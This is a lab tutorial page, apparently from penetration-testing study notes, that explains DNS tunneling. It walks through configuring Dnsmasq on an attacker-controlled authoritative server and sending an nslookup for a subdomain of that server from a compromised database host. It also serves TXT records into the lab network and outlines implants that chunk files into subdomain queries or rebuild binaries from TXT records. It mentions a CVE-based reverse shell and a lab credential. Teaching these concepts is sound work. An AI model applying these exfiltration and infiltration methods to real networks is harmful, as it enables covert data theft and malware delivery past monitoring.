


# DNS Tunneling

DNS Tunneling is similar conceptually to [HTTP Tunneling](http-tunneling/), except instead of encapsulating data in HTTP traffic it is instead encapsulated in DNS traffic.

DNS tunneling can be used for both data _infiltration_ (placement into target network) and _exfiltration_ (removal from target network).&#x20;

In order to leverage this technique, an **attacker must arrange to have an authoritative DNS server of some domain under their control** and then **must arrange specific DNS requests from a victim**. The first half of this is the harder portion. For the examples in this section it will just be assumed the attacker compromised a vulnerable DNS server on the WAN-side of the target network. This is feasible in the real world, though not necessarily easy. Another real-world option would be to register some domain and then set up their own DNS server for that domain.

The remainder of this page will illustrate the concepts of DNS tunneling with examples (though not practical real-world examples).

## Illustration Background

The examples here will continue to leverage a similar network structure to what has been seen in [previous](../simple-port-forwarding-scenario.md) [examples](../ssh-tunneling/ssh-dynamic-remote-port-forwarding.md) with some minor modifications. There are 2 machines that sit on the perimeter between the external and target networks (`MULTIVERVER03` and `CONFLUENCE01`). These 2 machines sit across a DMZ from a machine running a PostgreSQL database (`PGDATABASE01`) which straddles the DMZ and the internal network. On the internal network is a machine running SMB called `HRSHARES`.

The main addition to this example set is a server on the WAN-side that serves as an authoritative DNS server for a particular domain (`feline.corp`). The server is called `FELINEAUTHORITY`. The entire layout is shown in this diagram:

<figure><figcaption><p>Layout of the target network</p></figcaption></figure>

As noted above it is assumed, for simplicity's sake, that the attacker has compromised `FELINEAUTHORITY` and has elevated access via a compromised account (`kali:7he_C4t_c0ntro11er`).&#x20;

## Data Exfiltration

The first illustration will deal with how DNS can be used to get data out of the target network.

### Dnsmasq

[Dnsmasq](https://thekelleys.org.uk/dnsmasq/doc.html) is DNS server software that requires minimal configuration. It will be used to turn `FELINEAUTHORITY` into a functional DNS server.

First the attacker accesses `FELINEAUTHORITY` via SSH. Once the connection is established the attacker will need some configuration files for Dnsmasq. All config files will be stored on `FELINEAUTHORITY` at `~/dnsmasq_config`:


```
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp
```


This configuration ignores the `/etc/resolv.conf` and `/etc/hosts` files and only defines the `auth-zone` and `auth-server` variables. These tell Dnsmasq to act as the authoritative name server for the `feline.corp` [zone](https://en.wikipedia.org/wiki/DNS\_zone).

No records have been configured so requests for anything on the `feline.corp` domain will return failure responses.

In order to launch Dnsmasq with a config file, the command is:

```bash
sudo dnsmasq -C <config_file> -d
```

* `-C` specifies the path to the config file
* `-d` launches Dnsmasq in "no-daemon" mode so it runs in the foreground. This is for ease-of-observation in the example and _in normal operation this flag would not be used_

This is run on the `FELINEAUTHORITY` machine:

```bash
kali@felineauthority:~/dnsmasq_config$ sudo dnsmasq -C dnsmasq.conf -d
[sudo] password for kali: 
dnsmasq: started, version 2.89 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq: warning: no upstream servers configured
dnsmasq: cleared cache
```

#### Monitor Incoming Traffic

For illustration purposes, `tcpdump` will be used to monitor incoming DNS traffic. The interface on the machine is called `ens192`. The following command will monitor that interface `UDP/53` for DNS traffic:

```bash
sudo tcpdump -i ens192 udp port 53
```

### Victim Machine

#### Machine Access

Now that a DNS server is running on `FELINEAUTHORITY` focus can be shifted to the victim machine. For illustration purposes this attack will simplify some of the steps to allow focus on DNS tunneling.

The victim machine in this case will be `PGDATABASE01`. The attacker can reach this machine by setting up a pivot through `CONFLUENCE01` with the following steps

1. &#x20;Compromise  with CVE-2022-26134 and start a [reverse shell](../simple-port-forwarding-scenario.md#reverse-shell)
2. Set up an SSH dynamic remote port forward through `CONFLUENCE01` to `PGDATABASE01` as seen in [this example](../ssh-tunneling/ssh-dynamic-remote-port-forwarding.md#setting-up-the-remote-forward)
3. Use SSH with ProxyCommand and Ncat as seen [here](../ssh-tunneling/ssh-dynamic-remote-port-forwarding.md#ssh-session) to create an SSH session with `PGDATABASE01` through the tunnel

At this point commands can be run on `PGDATABASE01` from the attacker's machine.

#### DNS Exfiltration

Now that all the legwork of setting up a DNS server and accessing a victim is complete, it is time to actually illustrate how DNS can be used for data exfiltration.

The first step is to check the DNS settings on the machine. This can be done with the `resolvectl` utility via the status command:

```bash
resolvectl status
```

When run on  the output reveals:

```bash
database_admin@pgdatabase01:~$ resolvectl status
Global
       LLMNR setting: no                  
MulticastDNS setting: no
...
Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.249.64
         DNS Servers: 10.4.249.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no
  Current DNS Server: 10.4.249.64
         DNS Servers: 10.4.249.64
```

&#x20;This reveals that `MULTISERVER03` which is located at `10.4.249.64` is the DNS resolver for `PGDATABASE01`. This makes sense as  sits on the network perimeter.

To illustrate the example, the attacker will manually attempt to resolve a subdomain of `feline.corp` using `nslookup`:

```bash
nslookup exfiltrated-data.feline.corp
```

&#x20;When run on `PGDATABASE01` an `NXDOMAIN` response is received:

```bash
database_admin@pgdatabase01:~$ nslookup exfiltrated-data.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find exfiltrated-data.feline.corp: NXDOMAIN
```

This makes sense because the attacker configured no records for Dnsmasq to serve on `FELINEAUTHORITY`. However, the point is not to create a valid connection so the response is unimportant. What matters is that the request hits the DNS server on `FELINEAUTHORITY` which can be seen via the `tcpdump` session started [above](dns-tunneling.md#monitor-incoming-traffic):


```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:36:50.644897 IP 192.168.249.64.53646 > 192.168.249.7.domain: 44540+ [1au] A? exfiltrated-data.feline.corp. (57)
18:36:50.644975 IP 192.168.249.7.domain > 192.168.249.64.53646: 44540 NXDomain 0/0/1 (57)
18:36:50.664921 IP 192.168.249.7.43568 > 192.168.249.254.domain: 25048+ PTR? 64.249.168.192.in-addr.arpa. (45)
18:36:50.665394 IP 192.168.249.254.domain > 192.168.249.7.43568: 25048 NXDomain* 0/1/0 (104)
```


Line 6 of the output contains the query for the `exfiltrated-data` subdomain (`A? exfiltrated-data.feline.corp`).&#x20;

### Example Takeaway

When issued via `nslookup` the request took the following path through the network:

<figure><figcaption><p>Journey of the exfiltrated data</p></figcaption></figure>

The steps where `MULTISERVER03` sent queries to the root name servers and TLD name server have been omitted here for simplicity. But in a normal network situation, these steps would precede the request made to `FELINEAUTHORITY`.

While no record was returned what is important is the "subdomain" of the request. In this case it was literally the string "`exfiltrated-data`" to illustrate the example. However what if instead of manually looking up that string on `PGDATABASE01` via `nslookup`, the attacker managed to implant a malicious program to access a particular file, break it into pieces and query each chunk as a subdomain of `feline.corp`. Then another program could be used to go through the DNS logs and piece all of the subdomains back into a single file.

E.g. lets say the attacker wanted to leak the following file programmatically:

```
Line1
Line2
Line3
Line4
```

The attacker could have their malicious program first look up `Line1.feline.corp`, then `Line2.feline.corp`, then `Line3...` and so on. In reality some form of encryption or masking would likely be done before this type of exfiltration to prevent the outbound DNS logs from obviously containing data being leaked. Through this methodology really any file could be leaked.

## Data Infiltration

In a similar manner to data exfiltration, DNS can be used for _data infiltration_, or placement into the victim network from outside. This example will continue to use the same network layout and machine access seen above with some slight modifications.

### Dnsmasq Configuration

This time Dnsmasq will use a modified configuration file replicated below:


```
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.
```


It is mostly the same as the one seen [above](dns-tunneling.md#dnsmasq) except it has some `TXT` records configured.  These will be the vehicle for passing data into the network.

### Victim Machine

The steps for gaining SSH access to PGDATABASE01 will be the same as

[above](dns-tunneling.md#machine-access). Once the shell is obtained nslookup will again be used to illustrate the example. This time, all `TXT` records associated with `www.feline.corp` are requested:

```bash
nslookup -type=txt www.feline.corp
```

When run, the request returns the `TXT` records configured [above](dns-tunneling.md#dnsmasq-configuration):

```bash
database_admin@pgdatabase01:~$ nslookup -type=txt www.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

Non-authoritative answer:
www.feline.corp	text = "here's something else less useful."
www.feline.corp	text = "here's something useful!"
```

### Example Takeaway

In this case the TXT records were just some actual text. However, consider what would be possible. The attacker could take a malicious binary, hex encode it as a string, and serve chunks of the hex-encoded string as TXT records. Then a malicious implant could be written to programmatically request the TXT records, reassemble them into a binary, and launch the binary once completed. The malicious implant could be relatively small as the code to do this is quite simple, but it could allow significantly more data to flow into the network even past DPI.

While the above are not really realistic or practical applications of DNS tunneling it illustrates the concepts of data infiltration and exfiltration with DNS.
